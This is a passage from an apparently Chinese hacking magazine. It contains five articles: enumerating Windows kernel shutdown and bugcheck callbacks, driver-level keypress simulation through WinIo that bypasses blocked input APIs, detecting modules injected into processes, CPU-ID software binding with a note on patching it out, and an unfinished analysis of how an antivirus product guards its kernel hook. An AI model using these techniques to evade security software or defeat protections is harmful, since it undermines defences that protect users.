

```

有了上述储备，我们完全可以用纯 C# 实现一个具有三种方式的托管驱动加载器。当然这只是我们三部曲中的第一部，之后还会为大家介绍其余两个模块的实现。我们会尽量在通信模块的设计和实现中加入自己对于 Windows I/O 的理解，敬请期待吧。下面为大家奉上我们写的驱动加载器，如图 1 所示。由于实验目的并未在界面上下功夫，请见谅，聪明的读者一定可以借助 .NET 技术设计出很酷的加载器。
图 1

前置知识：VC  
关键词：编程、系统回调、shutdown、bugcheck

##### Windows 内核 bugcheck 和 shutdown 回调的检测

文/lq（cqupt），ljh（cqupt）

Windows 系统回调大致有 shutdown、bugcheck、bugcheckreason、createprocess、createthread、loadimage 以及注册表回调这几种。createprocess、createthread 和 loadimage 在网上有很多相关资料和代码，而注册表回调我在 2009 年第 7 期的《黑防》上曾经写过一篇检测和卸载的文章，后来由于种种原因没有再继续探索 Windows 系统回调的秘密。前不久考完试，也有了一点时间来让我完成这次的 callback 之旅，把缺少的 shutdown、bugcheck 和 bugcheckreason 补充完整。

我们先来看一下注册关机回调的函数原型：

```c
NTSTATUS
IoRegisterShutdownNotification(
    IN PDEVICE_OBJECT DeviceObject
);
```

的函数是驱动的 IRP_MJ_SHUTDOWN 派遣例程。微软只告诉了我们怎么使用这个函数，并没有告诉这个函数是怎样实现注册关机回调功能的，我们先来反汇编看一下。

```c
IopRegisterShutdownNotification
nt!IoRegisterShutdownNotification:
805748e8 8bff        mov edi,edi
805748ea 55          push ebp
805748eb 8bec        mov ebp,esp
...
call nt!ExAllocatePoolWithTag
...
call nt!ObfReferenceObject
...
call nt!IopInterlockedInsertHeadList
...
DeviceObject->Flags |= DO_SHUTDOWN_REGISTERED
ret 4
```

而 IopInterlockedInsertHeadList 函数则更简单，功能和 InsertHeadList 几乎一致。由此我们可以推出存入 NotifyShutdown 队列之中的结构体是这样的。

```c
struct _X {
    LIST_ENTRY List;
    PDEVICE_OBJECT DevObj;
} X;
```

既然知道了队列以及结构体，剩下的遍历就很简单了。先是获取 IopInterlockedInsertHeadList 地址，我采用的方法是最常见的，即搜特征码。

```c
/* 获取 IopNotifyShutdownQueueHead 的原始地址 */
NTSTATUS GetShutdownQueueHeadOffset()
{
    PUCHAR pCurrent = NULL;
    size_t length = 0;
    struct xde_instr code_instr = {0};
    ULONG Offset = 0;
    ...
}
```

```c
int i;
pCurrent = (PUCHAR)IoRegisterShutdownNotification;
for (i = 0; i < 100; i++) {
    length = xde_disasm(pCurrent, &code_instr);
    if (length == 0) { pCurrent++; continue; }
    if (*pCurrent == 0xB9) {
        Offset = *((ULONG*)(pCurrent + 1));
        if (MmIsAddressValid((PVOID)Offset)) {
            g_IopNotifyShutdownQueueHead = (PLIST_ENTRY)Offset;
            return STATUS_SUCCESS;
        }
    }
    pCurrent += length;
}
return STATUS_UNSUCCESSFUL;
```

得到地址之后，我们就可以开始遍历了，实现代码如下：

```c
void EnumShutdownCallback()
{
    PDEVICE_OBJECT DevObj = NULL;
    PDRIVER_OBJECT DrvObj = NULL;
    ULONG Dispatch = 0;
    PLIST_ENTRY CurEntry = NULL;

    for (CurEntry = g_IopNotifyShutdownQueueHead->Flink;
         CurEntry != g_IopNotifyShutdownQueueHead;
         CurEntry = CurEntry->Flink)
    {
        DevObj = (PDEVICE_OBJECT)(*(ULONG *)((ULONG)CurEntry + 8));
        DrvObj = DevObj->DriverObject;
        Dispatch = (ULONG)(DrvObj->MajorFunction[IRP_MJ_SHUTDOWN]);
        DbgPrint("shutdown|0x%X|...", Dispatch, ...);
    }
}
```

这里要注意的还是老问题，LIST_ENTRY 是个双向链表，遍历一遍之后又会回到出发点，需要判断一下是否已经遍历完成一遍了。而判断的方法就是随意选取一个结点作为标志结点，当遍历的过程中再一次出现这个标志结点时，就表明我们已经成功地完成了一次遍历。

接着我们来看 BugCheckReasonCallback。注册的函数原型如下：

```c
BOOLEAN
```

```c
KeRegisterBugCheckReasonCallback(
  IN PKBUGCHECK_REASON_CALLBACK_RECORD CallbackRecord,
  IN PKBUGCHECK_REASON_CALLBACK_ROUTINE CallbackRoutine,
  IN KBUGCHECK_CALLBACK_REASON Reason,
  IN PUCHAR Component
);
```

其中第一个参数的结构体定义如下：

```c
typedef struct _KBUGCHECK_REASON_CALLBACK_RECORD {
  LIST_ENTRY Entry;
  PKBUGCHECK_REASON_CALLBACK_ROUTINE CallbackRoutine;
  PUCHAR Component;
  ULONG_PTR Checksum;
  KBUGCHECK_CALLBACK_REASON Reason;
  UCHAR State;
} KBUGCHECK_REASON_CALLBACK_RECORD, *PKBUGCHECK_REASON_CALLBACK_RECORD;
```

比较值得注意的是，类型为 BugCheck_AddPages Callback 的回调例程只有 Windows Server 2008 及之后的 Windows 版本才支持，所以 Reason 参数在设置为 KbCallbackAddPages 之前一定记得要判断系统版本。我们反汇编一下 KeRegisterBugCheckReasonCallback。

```asm
lkd> u KeRegisterBugCheckReasonCallback l30
nt!KeRegisterBugCheckReasonCallback:
804fa140 8bff            mov edi,edi
804fa142 55              push ebp
804fa143 8bec            mov ebp,esp
...
804fa1a3 e8...           call nt!KiReleaseSpinLock
...
804fa1b6 c21000          ret 10h
```

```asm
804fa180 894810      mov dword ptr [eax+10h], ecx
; CallbackRecord->Checksum = Checksum
804fa187 8b0d...     mov ecx,dword ptr [nt!KeBugCheckReasonCallbackListHead]
...
804fa1a3 e8...       call nt!KiReleaseSpinLock
804fa1ab ff15...     call dword ptr [nt!_imp_KfLowerIrql]
...
804fa1b6 c21000      ret 10h
```

于是，我们枚举的代码就可以按照下面这样编写了。

```c
void EnumBugCheckReasonCallback()
{
  ULONG Dispatch = 0;
  PLIST_ENTRY CurrEntry = NULL;
  CurrEntry = g_KeBugCheckReasonCallbackListHead->Flink;
  do {
    Dispatch = *(ULONG *)((ULONG)CurrEntry + 0x8);
    DbgPrint("[BugCheckReason]0x%X, PCALLBACK_RECORD:0x%X\n", Dispatch, CurrEntry);
    CurrEntry = CurrEntry->Flink;
  } while (CurrEntry != g_KeBugCheckReasonCallbackListHead);
}




```

bugcheck 检测部分的代码与 bugcheckreason 很像，就不重复贴出来浪费版面了，最终的检测结果如图 1 所示。
图 1

从图中可以看出，我们的代码检测结果和 XueTr 的结果完全一致。当然，我所写的这份代码主要是阐述检测的思路，细节上还有不少问题没有考虑到，比如没有考虑到函数被 HOOK 的情况、特征码搜索并没有考虑跨平台的情况等等。大家有时间有兴趣可以完善一下。有了这些检测的结果，要卸载或者删除相应的回调也就很容易了。

全部功能。大家如果还有什么问题欢迎来黑防论坛与我讨论，我的论坛 ID 是 li_cqupt。

本文涉及的驱动代码在 WDK6001、18002+WinXP SP2 下编译通过，在 Windows XP SP2 上加载并成功实现。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：编程、WinIo、模拟按键

##### WinIo 驱动级模拟按键的实现
文/键盘上的眼泪

有些软件会屏蔽掉 SendMessage、PostMessage 这些发送消息的函数，这样的话我们就无法通过发送消息的方式去模拟按键，这时可以使用 keybd_event 函数来实现模拟按键，但如果 keybd_event 函数也被屏蔽了怎么办？我们还可以使用另一种方法，WinIo 驱动级模拟按键。

###### 什么是 WinIo

WinIo 通过加载一个内核模式的设备驱动程序，使得 Windows 应用程序可以直接对 I/O 端口和物理内存进行存取，从而绕过 Windows 系统的保护机制。WinIo 包含 3 个文件：WinIo.dll、WinIo.sys 和 WinIo.vxd，其中 WinIo.vxd 驱动程序用在 Windows 95/98 系统上，WinIo.sys 驱动程序用在 Windows NT/2000/XP 系统上，WinIo.dll 提供了功能函数的调用。

###### WinIo 函数的介绍

对于 WinIo 里的函数，可能很多人都没有接触过，我们需要了解一下相关的 WinIo 函数。InitializeWinIo 函数用来初始化 WinIo 的驱动程序，必须在调用所有其他功能函数之前调用该函数；ShutdownWinIo 用来卸载 WinIo 驱动程序；GetPortVal 函数用来读 I/O 端口，该函数原型如下：

```c
GetPortVal(WORD wPortAddr,
           PDWORD pdwPortVal,
           BYTE bSize);
```

wPortAddr 指定一个端口地址值；pdwPortVal 为指向一个双字节型变量的指针，该变量存储从 wPortAddr 端口读取的值；bSize 指定读取字节数，值可以为 1、2 或 4。SetPortVal 函数用来写 I/O 端口，参数与 GetPortVal 类似。

###### 模拟过程

打开 VC 6.0，新建一个 MFC 对话框工程，单击“Project Setting->Link->Object/library modules”，加入 WinIo.lib 库文件，这样才能使用 WinIo 函数。首先在窗体初始化的时候，使用 InitializeWinIo() 函数来安装 WinIo 驱动，然后自定义一个函数，用于等待键盘缓冲区。该函数代码如下：

```c
void KBCWait4IBE()
{
    DWORD dwRegVal = 0;
    do {
        GetPortVal(0x64, &dwRegVal, 1);
    } while (dwRegVal & 0x2);
}
```

我们再自定义两个函数，分别用来按下键与释放键。MyKeyDown 函数用来按下键，MyKeyUp 函数用来释放键，这两个函数的定义如下：

```c
void MyKeyDown(DWORD KCode)
{
    Sleep(2000); // 休息2秒
    KBCWait4IBE(); // 等待键盘缓冲区为空
    SetPortVal(0X64, 0xD2, 1); // 发送键盘写入命令
    Sleep(10);
    KBCWait4IBE();
    SetPortVal(0X60, MapVirtualKey(KCode, 0), 1); // 写入按键信息，按下键
}

void MyKeyUp(DWORD KCode)
{
    Sleep(10);
    KBCWait4IBE(); // 等待键盘缓冲区为空
    SetPortVal(0X64, 0xD2, 1); // 发送键盘写入命令
    Sleep(10);
    ...
}
```

```c
KBCWait4IBE();
SetPortVal(0X60, (MapVirtualKey(KCode, 0) | 0x80), 1);
// 写入按键信息，释放键
```

此时我们只需将按键键值传入 MyKeyDown 与 MyKeyUp 的 KCode 参数里就能实现模拟按键了。举例如下：

```c
MyKeyDown(65); // 按下 a 键
MyKeyUp(65);   // 释放 a 键
MyKeyDown(66); // 按下 b 键
MyKeyUp(66);   // 释放 b 键
MyKeyDown(VK_F1);   // 按下 F1 键
MyKeyUp(VK_F1);     // 释放 F1 键
MyKeyDown(VK_BACK); // 按下退格键
MyKeyUp(VK_BACK);   // 释放退格键






```

运行之后，效果如图 1 所示，最后在窗体关闭的时候要记得调用 ShutdownWinIo() 函数来卸载 WinIo 驱动程序。
图 1

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：编程、进程、行为检测

##### 基于进程行为的检测技术
文/河南大学化学化工学院 Hacker

本文的原理很简单，就是通过定时来枚举某个进程的模块，如果有新的模块注入到进程中，则告知用户，如果需要采取进一步的行动，可以参考黑防以前的文章，本文就不详述了。另外，本文没有用到驱动，只是基于用户态模式下的检测技术，给大家提供个思路，可以根据自己的爱好来写出喜欢的程序。好了，废话不多说，直接进入正题。

###### 过程

首先还是要先获得所有的活动进程，可以通过下面这个函数来实现：

```c
void CProcessMonitorDlg::ListProcess()
{
    DWORD pidprocesses[1024], cbneeded;
    HANDLE hprocess;
    HMODULE hmodule;
    HANDLE handle;
    PROCESSENTRY32 pe;
    UINT i;
    HANDLE hToken;
    bool flag;
    char normalname[256] = {0};
    int k = 0;
    ...
}
```

```c
if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
{
    if (EnablePrivilege(hToken, SE_DEBUG_NAME))
    {
        EnumProcesses(pidprocesses, sizeof(pidprocesses), &cbneeded);
        i = cbneeded / sizeof(DWORD);
        handle = ::CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
        flag = ::Process32First(handle, &pe);
        m_ctrlList.InsertItem(k, pe.szExeFile);
        char szPid[16] = {0};
        sprintf(szPid, "%d", pe.th32ProcessID);
        m_ctrlList.SetItemText(k, 1, szPid);
        ListModules(pe.th32ProcessID, k);
        while (flag)
        {
            k++;
            if (k >= i)
                break;
            flag = ::Process32Next(handle, &pe);
            m_ctrlList.InsertItem(k, pe.szExeFile);
            sprintf(szPid, "%d", pe.th32ProcessID);
            m_ctrlList.SetItemText(k, 1, szPid);
            hprocess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, false, pe.th32ProcessID);
            ...
        }
    }
}
```

```cpp
if(hprocess)
{
    EnumProcessModules(hprocess, &hmodule, sizeof(hmodule), &cbneeded);
    GetModuleFileNameEx(hprocess, hmodule, normalname, sizeof(normalname));
    GetShortPathName(normalname, normalname, 256);
    m_ctlList.SetItemText(k, 2, normalname);
}
```

```cpp
flag = ::Module32Next(handle, &me);
strcpy(process[index].name[m_number].name[k-1].szName, me.szExePath);
process[index].name[m_number].flag1 = true;
process[index].name[m_number].count = k - 1;
...
if(process[index].name[0].flag1 == true && process[index].name[1].flag1 == true)
{
    CompareStruct(process[index].name[0], process[index].name[1]);
}
```

这个函数的主要作用就是获取进程列表，并将获取的进程列表填充在列表框中。在列表框中总共有3列，一列是程序的映像名称，一列是进程的 pid，还有一列是进程的程序路径。当我们获取进程列表后，再通过 ListModules 函数获取进程的模块列表，同时将获取的模块路径存入到一个结构中，当下次再遍历这个进程的时候，将这次遍历的结果再存入另外一个模块中，当遍历过两次后，就可以对比这两次的结果，如果有新的模块添加进去，就会告知用户。此处在程序里面应该加个定时器，用来通知函数定期遍历。

这里我定义了几个结构，用来存储特定的信息，结构的定义如下：

```cpp
struct SINGLENAME // 存储模块的路径
{
    char szName[256];
};

struct NAME
{
    SINGLENAME name[128];
    bool flag1;
    int count;
};

struct PROCESSNUMBER
{
    NAME name[2];
};
```

这里在这个结构中定义了两个 NAME 结构，就是为了做对比用的。其中还有个函数 CompareStruct 是为了比较进程中模块不同的，这里就不再列出来了，大家可以看源代码。

listModules 函数的代码如下所示：

```cpp
void CProcessMonitorDlg::ListModules(DWORD pid, int index)
{
    if((pid == 0) || (pid == 4))
    {
        return;
    }
    m_number++;
    m_number = m_number % 2;
    HANDLE handle = ::CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, pid);
    MODULEENTRY32 me;
    bool flag = ::Module32First(handle, &me);
    int k = 0;
    while(flag)
    {
        k++;
        ...
    }
}


```

##### 总结

本文比较简单，其实也就是提供个思路给大家，程序还有许多有待改进的地方，还望大家不吝赐教，一起交流，我的黑防 ID 是 hackicer。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：编程、软件保护、加密

##### 利用 CPU 序列号保护自己的软件
文/JKS/闪亮的心

对于一名黑客来说，没有比不小心感染了远控类木马而导致个人的专用工具被盗取更叫人头疼的了。

一般来说，大部分黑客都采用文件夹加密的方法来保护自己的工具；但在木马面前，文件夹的密码即使再复杂也很难真正保障安全。下面本文就介绍一种通过绑定 CPU 序列号来保护自己软件的方法。

每个 CPU 都有自己的信息，这些信息包括型号、信息处理器系列、高速缓存大小、时钟速度和制造厂的代码名称等。CPU 的这些信息就好比 CPU 的身份证一样，可以被用来标识每个 CPU。一般大部分的注册软件就是通过 CPU 的信息生成机器码来达到一机一软件的目的。所以，只要我们自己写的工具和 CPU 的信息进行绑定，那么在其他计算机上必然就无法运行了。但是并没有 API 可以直接获取 CPU 的相关信息，我们需要通过 Intel 的 CPU 指令集来获取，也就是 cpuid 指令。读者如果有兴趣的话，可以去 Intel 官方查看 X86 系列相关 CPU 的指令集，在这里我直接写出相关代码。

```cpp
int nRetCode = 0;
unsigned long s1, s2;
CString MyCpuID; // CPU 序列号
CString CPUID1;  // CPU 序列号前16位
CString CPUID2;  // CPU 序列号后16位
char m_CPUID[32];
char *buff;
__asm{
  mov eax, 01h
  xor edx, edx
  cpuid
  mov s1, edx
  mov s2, eax
}
CPUID1.Format("%08X%08X", s1, s2);
wsprintf(m_CPUID, CPUID1);

__asm{
  mov eax, 03h
  xor ecx, ecx
  xor edx, edx
  cpuid
  mov s1, edx
  mov s2, ecx
}
CPUID2.Format("%08X%08X", s1, s2);
MyCpuID = CPUID1 + CPUID2;
```

其中 EAX 存放的是 CPUID 指令所支持的最大值和厂家的名称字符串参数。如果是 01h，则代表 type/family/model/stepping；02h 则代表处理器配置描述参数；03h 代表处理器序列号（注：只有在 PSN 有效时，才可以返回处理器序号，否则不支持该命令）。这里，我选择 01h，通过 type/family/model/stepping 来绑定计算机。事实上 16 位的描述参数足够用来标识 CPU 自身的信息了。

我的基本思路是这样的，首先对自己计算机的 CPU 信息进行提取，然后进行一次 MD5 运算，将获得的 32 位 Hash 值作为比较参数，存放在程序中。然后程序运行的时候，再提取当前所在计算机的 CPU 信息，进行一次 MD5 运算，把运算结果和之前的 Hash 值进行比较，如果相等，程序就继续运行，如果不相等，程序就退出。

对于 MFC 程序来说，这段代码应写在主窗口函数的 OnInitDialog 中，主要代码如下：

```cpp
memset(m_CPUID, 0, 64);
memset(m_examine, 0, 64);
wsprintf(m_examine, "200819767d685040e4e5dc858d585f22");
// 我自己计算机 CPU 信息的 Hash 值
GetCPUMD5();   // 获取 CPU 参数的 Hash 值
if (memcmp((void*)m_examine, (void*)m_CPUID, 64) != 0)
    exit(1);
```

对于 GetCPUMD5 函数的实现代码如下：

```cpp
unsigned long s1, s2;
CString CPUID1;
char m_CPUID1[32];
char *buff;
__asm{
  mov eax, 01h
  xor edx, edx
  cpuid
  mov s1, edx
  mov s2, eax
}
CPUID1.Format("%08X%08X", s1, s2);
wsprintf(m_CPUID1, CPUID1);
buff = MD5String(m_CPUID1);
wsprintf(m_CPUID, buff);
```

这里我只选取了 CPU 的 type/family/model/stepping 16 位信息，而 MD5String 这个函数是进行 MD5 运算的函数，这样就实现了程序和本地计算机的绑定。虽然这样做可以保证自己的程序不能在其他计算机上运行，但现在调试器是非常强大的，如果程序被爆破，那么保护机制就毫无意义了，因为验证的过程就是一个比较的过程，if 语句是通过下面的汇编代码实现的：

```asm
TEST EAX, EAX
JE XXXX


```

而在爆破的时候，只需将“TEST EAX, EAX”改成“XOR EAX, EAX”即可完成整个程序的破解工作，所以我们需要给程序加上一个足够强大的保护壳。Themida 和 VMP 是不错的选择。同时程序的关键部分建议全部写成 DLL 文件的形式，通过远程服务器来校验。也就是说，为远程服务器写一个验证程序，当自身程序运行的时候，会将 CPU 的序列号等信息发送到远程服务器上，只有和服务器上的序列号匹配了，远程服务器才将核心 DLL 文件传送给应用程序中装载。在这样的多重保护下，即使软件被盗，那么盗版的人就算想要使用你的软件，破解起来也是难上加难。这样就通过简单的代码实现了对自己软件的保护，大家不妨一试。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编  
关键词：编程、江民、Hook

##### 江民 2010 KiFastCall Entry Hook 保护原理剖析
文/图 虎子哥哥

最近了解了一下新版本的江民2010，想看看有什么新的变化。在虚拟机中把江民2010安装起来，然后打开各种ARK工具分析。初步了解后，发现还是与以前相似，江民挂钩了一些SSDT和Shadow SSDT里的函数。随后到系统各处转转，看到一个比较有趣的 nt!KiFastCallEntry inline Hook。说它有趣，是因为这个钩子用工具恢复以后，江民会重新再钩上去，所以用一般的工具恢复不了。我顿时来了兴趣，想看看江民对这个 inline Hook 的保护是怎么实现的。用 WinDbg 调试了一阵子，终于找出了江民的保护原理，这里与大家分享一下。

恢复江民的 KiFastCallEntry Inline Hook 之后，江民为什么会重新挂钩呢？它好像知道我们恢复了它的钩子似的。难道江民一直在反复读取那个被 Hook 的内存地址，一发现被修改就立刻改回去？于是我拿出 WinDbg，查找江民 Hook 的内存地址在哪儿。通过跟踪系统函数的调用过程，发现原来江民是修改了下面的地方。

……跳出系统内核正常的执行流程后，就到了江民的这两个模块里。不过我感兴趣的不是它怎么对系统的函数调用进行过滤，而是江民如何保护这个 Inline Hook，所以也就不从这个 imp 跟踪下去了。

好了，已经找到了江民在对 KiFastCallEntry 做 inline Hook 时所修改的内存地址，那么接下来就看看它究竟如何保护这个地址不被修改的。用 WinDbg 设置下一个内存访问断点，把对这个内存地址的读取操作监视起来。设好断点以后，继续执行虚拟机里的系统，果然断了下来，而且地址是在江民的 KSysMon.sys 模块里。看来答案就快浮出来了，于是我顺着这个线索找下去，来回几番跟踪过后，终于理清了江民是如何保护这个内存地址不被修改的。

原来江民有一个内核线程，这个线程通过死循环不断读取上述内存地址的值，如果发现这个地址被修改了，就立刻修改回来，所以一般的工具不能对江民的 KiFastCallEntry Hook 进行恢复。不过江民很猥琐，它把这个线程隐藏起来了，所以用工具查看不到。这也可以看出江民对这个 KiFastCallEntry Hook 的重视程度，否则它怎么会折腾这么多东西呢。实在没有办法说明这个线程是实实在在地存在于系统里的，只好把这个线程函数的反汇编代码呈现给大家了。

```asm
805425f5 52            push edx
805425f6 50            push eax
